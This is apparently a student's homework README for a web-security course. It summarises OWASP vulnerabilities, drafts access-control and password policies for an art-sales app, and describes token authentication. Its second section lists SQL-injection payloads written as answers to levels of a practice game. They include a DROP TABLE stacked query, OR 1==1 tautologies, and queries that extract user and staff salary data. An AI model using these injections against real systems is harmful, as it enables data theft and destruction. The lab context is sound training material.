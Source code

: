 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-22041afd0340ce965d47ae6ef1cefeee28c7c493a6346c4f15d667ab976d596c.svg)](https://classroom.github.com/a/S9WTUTwx)

1 )  L’organització OWASP Foundation va actualitzar en 2021 el seu Top 10 de vulnerabilitats més trobades en aplicacions web. 
  Escull 3 vulnerabilitats d’aquesta llista i descriu-les. Escriu l’impacte que tenen a la seguretat i quins danys pot arribar a fer un atac en aquesta vulnerabilitat. Enumera diferents mesures i tècniques per poder evitar-les.
  
Pérdida de Control de Acceso:
Los usuarios pueden actuar fuera de los permisos otorgados, es decir, pueden divulgar, modificar y eliminar información o ejecutar funciones no autorizadas para el usuario. Ej, un usuario general actúa como superusuario(admin)

El usuario puede acceder a información de una cuenta ajena a la suya con tan solo modificar el URL de la página

El usuario no autenticado puede acceder a cualquier página mediante navegación forzada

Se evita:
  Denegar por defecto los recursos, a excepción de los públicos
  No permitir que el usuario pueda crear, modificar y eliminar cualquier dato
  Generar tokens JWT de corta duración
  Invalidar los identificadores de sesiones al cerrar la sesión

Inyección
  Si tienes una aplicación que usa consultas dinámicas o no parametrizadas a la base de datos y, además ofreces un input al usuario, puede que estés en peligro de un SQL Injection. Esto no es más que el usuario intenta introducir código SQL ejecutable mediante el input que se le suministra para intentar acceder a tu base de datos y así poder:
Eludir autenticación
Robar la identidad del usuario
Convertirse en administrador
Cómo evitarlo:
  Implementar validaciones de entrada de datos en el servidor
  Utilizar controles SQL como LIMIT para evitar fuga masiva de registros en caso de una inyección
  Utilizar siempre que se pueda una API segura que evite el uso de un intérprete y proporcione una interfaz parametrizada



  2) Obre el següent enllaç (sql inseckten) i realitza un mínim de 7 nivells fent servir tècniques d’injecció SQL. 
Copia cada una de les sentències SQL resultant que has realitzat a cada nivell i comenta que has aconseguit.
Nivel 1:
SELECT username 
FROM users 
WHERE username ='jane' AND password ='e6afb454bb26efc6b24e9b7c017fc24f';

Nivel 2:
SELECT username
FROM users
WHERE username = 'jane'; DROP TABLE users--

Nivel 3:
SELECT username
FROM users
WHERE username = ''OR 1==1--

Nivel 4:
SELECT username
FROM users
WHERE username = '' or 1==1 limit 1--

Nivel 5:
SELECT product_id, brand, size, price
FROM shoes,
WHERE brand =''; SELECT * FROM users--

Nivel 6:
SELECT username
FROM users
WHERE username='' OR (SELECT salary AS username FROM staff WHERE firstname = 'Greta Maria')--

Nivel 7:




  3) L’empresa a la qual treballes desenvoluparà una aplicació web de venda d’obres d’art. Els artistes registren les seves obres amb fotografies, títol, descripció i preu.  Els clients poden comprar les obres i poden escriure ressenyes públiques dels artistes a qui han comprat. Tant clients com artistes han d’estar registrats. L’aplicació guarda nom, cognoms, adreça completa, dni i telèfon. En el cas dels artistes guarda les dades bancaries per fer els pagaments. Hi ha un tipus d’usuari Acount Manager que s’encarrega de verificar als nous artistes. Un cop aprovats poden pública i vendre les seves obres.

Ara es vol aplicar aplicant els principis  de seguretat per tal de garantir el servei i la integritat de les dades. T’han encarregat l'elaboració de part de les polítiques de seguretat. Elabora els següents apartats:

a) Definició del control d’accés: enumera els rols  i quin accés a dades tenen cada rol. 
Cliente: Puede ver y comprar obras de arte, escribir reseñas y modificar sus datos personales.

Artista: Puede registrarse, publicar obras, editarlas y ver sus ventas. No puede modificar los datos de pago sin verificación.

Account Manager: Puede verificar nuevos artistas, gestionar publicaciones y administrar reseñas sospechosas.

Administrador: Control total sobre la aplicación, incluido el acceso a todos los datos y gestión de permisos.

b) Definició de la política de contrasenyes: normes de creació, d’ús i canvi de contrasenyes. Raona si són necessàries diferents polítiques segons el perfil d’usuari.

Normas de creación:

Mínimo 12 caracteres.

Debe contener mayúsculas, minúsculas, números y caracteres especiales.

No puede ser igual a las últimas 5 contraseñas usadas.

Normas de uso y cambio:

Cambio obligatorio cada 6 meses.

Bloqueo de cuenta después de 5 intentos fallidos.

Para roles críticos (Account Manager y Administrador), doble factor de autenticación (2FA).

c) Avaluació de la informació: determina quin valor tenen les dades que treballa l'aplicació. Determina com tractar les dades més sensibles. Quines dades encriptaries?

Valor de los datos:

Datos personales (nombre, DNI, dirección, teléfono) tienen un valor alto por la protección de privacidad.

Datos bancarios de los artistas tienen un valor crítico.

Tratamiento de datos sensibles:

Los datos bancarios se encriptan con AES-256.

Las contraseñas se guardan con hash y sal (SHA-256 o bcrypt).

No se guardan DNI o teléfonos en texto plano, se cifran con AES.


4) En el control d’accessos, existeixen mètodes d’autenticació basats en tokens. Defineix l’autenticació basada en tokens. Quins tipus hi ha? Com funciona mitjançant la web? Cerca llibreries .Net que ens poden ajudar a implementar autenticació amb tokens.
   ¿Qué es? Método de autenticación donde el usuario recibe un token al validarse, que se usa para futuras peticiones.

Tipos de tokens:

JWT (JSON Web Token): Ligero y seguro, contiene la información del usuario.

OAuth 2.0: Se utiliza para autenticación en aplicaciones de terceros.

SAML: Más común en entornos empresariales.

Funcionamiento en web:

El usuario inicia sesión con usuario y contraseña.

El servidor valida las credenciales y genera un JWT.

El cliente envía el JWT en cada petición HTTP para autenticarse.

Librerías .NET para autenticación con tokens:

Microsoft.AspNetCore.Authentication.JwtBearer

IdentityServer4

Auth0 SDK for .NET

